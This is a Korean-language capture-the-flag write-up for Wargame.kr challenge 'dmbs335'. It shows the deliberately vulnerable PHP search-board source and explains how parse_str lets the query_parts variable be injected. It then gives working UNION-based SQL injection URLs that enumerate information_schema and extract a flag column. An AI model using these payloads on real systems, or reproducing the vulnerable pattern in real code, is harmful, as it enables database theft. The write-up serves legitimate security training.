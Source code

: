 # Wargame.kr No.19 - dmbs335

## 문제 출제 의도
php의 parse_str의 취약점을 알고 sql injection 할 수 있는지 확인한다.

## 문제 이해
문제에 접근하기전에 힌트로써 `SQL injection Challenge! (injection)  - thx to dmbs335`기 츨력되었다.

문제에 접근하면 게시판같은 구조와 겁색을 할 수 있는 입력창, 소스코드를 볼 수 있게 해주는 링크가 있었다.

```php
<?php 

if (isset($_GET['view-source'])) {
        show_source(__FILE__);
   .     exit();
}

include("../lib.php");
include("./inc.php"); // Database Connected

function getOperator(&$operator) { 
    switch($operator) { 
        case 'and': 
        case '&&': 
            $operator = 'and'; 
            break; 
        case 'or': 
        case '||': 
            $operator = 'or'; 
            break; 
        default: 
            $operator = 'or'; 
            break; 
}} 

if(preg_match('/session/isUD',$_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

parse_str($_SERVER['QUERY_STRING']); 
getOperator($operator); 
$keyword = addslashes($keyword);
$where_clause = ''; 

if(!isset($search_cols)) { 
    $search_cols = 'subject|content'; 
} 

$cols = explode('|',$search_cols); 

foreach($cols as $col) { 
    $col = preg_match('/^(subject|content|writer)$/isDU',$col) ? $col : ''; 
    if($col) { 
        $query_parts = $col . " like '%" . $keyword . "%'"; 
    } 

    if($query_parts) { 
        $where_clause .= $query_parts; 
        $where_clause .= ' '; 
        $where_clause .= $operator; 
        $where_clause .= ' '; 
        $query_parts = ''; 
    } 
} 

if(!$where_clause) { 
    $where_clause = "content like '%{$keyword}%'"; 
} 
if(preg_match('/\s'.$operator.'\s$/isDU',$where_clause)) { 
    $len = strlen($where_clause) - (strlen($operator) + 2);
    $where_clause = substr($where_clause, 0, $len); 
} 


?>
<style>
    td:first-child, td:last-child {text-align:center;}
    td {padding:3px; border:1px solid #ddd;}
    thead td {font-weight:bold; text-align:center;}
    tbody tr {cursor:pointer;}
</style>
<br />
<table border=1>
    <thead>
        <tr><td>Num</td><td>subject</td><td>content</td><td>writer</td></tr>
    </thead>
    <tbody>
        <?php
            $result = mysql_query("select * from board where {$where_clause} order by idx desc");
            while ($row = mysql_fetch_assoc($result)) {
                echo "<tr>";
                echo "<td>{$row['idx']}</td>";
                echo "<td>{$row['subject']}</td>";
                echo "<td>{$row['content']}</td>";
                echo "<td>{$row['writer']}</td>";
                echo "</tr>";
            }
        ?>
    </tbody>
    <tfoot>
        <tr><td colspan=4>
            <form method="">
                <select name="search_cols">
                    <option value="subject" selected>subject</option>
                    <option value="content">content</option>
                    <option value="content|content">subject, content</option>
                    <option value="writer">writer</option>
                </select>
                <input type="text" name="keyword" />
                <input type="radio" name="operator" value="or" checked /> or &nbsp;&nbsp;
                <input type="radio" name="operator" value="and" /> and
                <input type="submit" value="SEARCH" />
            </form>
        </td></tr>
    </tfoot>
</table>
<br />
<a href="./?view-source">view-source</a><br />
```
위와 같은 코드로 이루어져있는데 parse_str의 취약점으로 select문의 쿼리를 조작하여 sql injection을 시도할 수 있을 것 같다.

## 문제 해결 방안
이 문제는 simple board와 유사한 문제이다.

우선 parse_str은 파라미터로 받은 문자열을 php 변수로 전환시켜주는 함수이다.

이 함수를 이용하여 쿼리를 그대로 조작하여 select문을 조작할 수 있다.

preg_match함수에서 search_cols 부분에 `write`,`subject`,`writer`이 있다면 다음 코드를 실행하는데 

```php
$query_parts = $col . " like '%" . $keyword . "%'"; 
```
이 코드를 실행 시키지 않고 query_parts를 get방식으로 전달함으로써 아래 코드를 실행시킨다.
```php
    if($query_parts) { 
        $where_clause .= $query_parts; 
        $where_clause .= ' '; 
        $where_clause .= $operator; 
        $where_clause .= ' '; 
        $query_parts = ''; 
    }
```
이 부분에서 $query_parts가 존재할 경우 $query_parts를 $where_clause에 덧붇힌다.

이때부터 simpleboard와 비슷해지는데
`?search_cols=a&keyword=a&operator=or&query_parts=1%20union%20select%20table_schema,table_name,3,4%20FROM%20information_Schema.tables#` 이런식으로 입력해주므로써 위의 search_cols의 preg_match함수를 피해가고 union으로 조작하여 table name 정보를 받아올 수 있었다. 

위를 url에 입력하게 되면 Th1s_1s_Flag_tbl 이라는 테이블이 출력되는데 이제 이 테이블의 컬럼들을 알아보는 쿼리를 만들 수 있었다.

쿼트를 사용하지 않기 위해 헥사코드로 전환하여 
`?search_cols=a&keyword=a&operator=or&query_parts=1%20union%20select%20column_type,column_name,3,4%20FROM%20information_Schema.columns%20where%20table_name=0x546831735F31735F466C61675F74626C`를 입력하자 컬럼 명을 알 수 있었고 f1ag라는 컬럼이 있는 것을 알 수 있었다.

해당 컬럼을 보기 위하여 쿼리를 조작하기 위하여
`?search_cols=a&keyword=a&operator=or&query_parts=1%20union%20select%20f1ag,2,3,4%20FROM%20Th1s_1s_Flag_tbl`를 입력하자 flag가 출력되었고 해당 flag를 auth에 입력하자 문제풀이에 성공하였다.